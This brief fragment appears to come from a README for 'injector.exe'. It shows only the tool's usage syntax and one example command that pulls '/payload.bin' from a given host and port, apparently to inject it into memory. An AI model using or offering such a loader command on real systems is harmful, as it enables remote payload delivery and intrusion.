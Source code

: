 - Usage: `.\injector.exe <Hostname/IP> <Port> <Endpoint> <IsSSL (true/false)>`
- Example: `.\injector.exe 192.168.1.1 80 /payload.bin false`
